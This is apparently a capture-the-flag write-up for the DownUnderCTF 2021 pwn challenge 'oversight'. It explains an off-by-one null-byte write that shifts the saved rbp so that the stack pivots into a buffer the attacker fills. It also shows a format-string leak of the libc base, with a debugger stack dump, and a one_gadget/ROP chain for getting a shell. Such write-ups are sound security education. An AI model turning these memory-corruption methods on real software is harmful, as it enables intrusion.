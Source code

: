 [link(github.com)](https://github.com/DownUnderCTF/Challenges_2021_Public/blob/main/pwn/oversight/WRITEUP.md)

> Arch:     amd64-64-little\
> RELRO:    Partial RELRO\
> Stack:    No canary found\
> NX:       NX enabled\
> PIE:      PIE enabled
> 
`leave` is short for `mov rsp, rbp` and `pop rbp` . So if we write a null byte in the lowest byte of `rbp` of `echo` function (write function in `echo_inner` function, but actually we write into stack (array v2) of `echo`  function)

```c
echo(unsigned int a1)
{
  char v2[256]; // [rsp+0h] [rbp-100h] BYREF
  return echo_inner(v2, a1); // a1[(int)fread(a1, 1uLL, a2, stdin)] = 0;// vuln
}
```

the `get_num_bytes` func:

```assembly
...
call    echo
mov     r12, [rbp+var_8]
leave
retn
```

the rbp of `echo` function  will pointer to lower address (in v2 array area). Due to `leave, retn` is called 2 times, then the following `ret` instruction begins a rop chain

**The exploit**

------

use format string to leak libc.address. i found the offset is 11

```assembly
0x7fffffffdf38 ◂— 0xa786c6c2431 /* '1$llx\n' */		; %11
0x7fffffffdf40 —▸ 0x7ffff7dca2a0 (_IO_file_jumps) ◂— 0x0
0x7fffffffdf48 ◂— 0x0
0x7fffffffdf50 ◂— 0x0
0x7fffffffdf58 —▸ 0x7ffff7a6f4d3 (_IO_file_overflow+259)
0x7fffffffdf60 ◂— 0x10
0x7fffffffdf68 —▸ 0x7ffff7dce760 (_IO_2_1_stdout_)	; %17		
0x7fffffffdf70 —▸ 0x555555556075 ◂— 'Lets play a game'
0x7fffffffdf78 —▸ 0x7ffff7a62c42 (puts+418)
0x7fffffffdf80 —▸ 0x7ffff7de3b40 ◂— push   rbp
0x7fffffffdf88 ◂— 0x0
0x7fffffffdf90 —▸ 0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdf98 —▸ 0x5555555550e0 (_start)
0x7fffffffdfa0 —▸ 0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdfa8 —▸ 0x5555555550d5 (main+37)
0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdfb8 —▸ 0x7ffff7a03bf7 (__libc_start_main+231) ◂— mov    edi, eax; %27
```

we can use %17 or %27 to leak address. run gdb with libc

```assembly
0x0000000000021bf7 <+231>:   mov    edi,eax ; __libc_start_main
```

now the issue is i dont know where we write rop chain `pop_rdi, /bin/sh, system` because different between local and remote enviroment variables, will have different stack address. So i use one_gadget to full fill v2, then we dont worry about it.

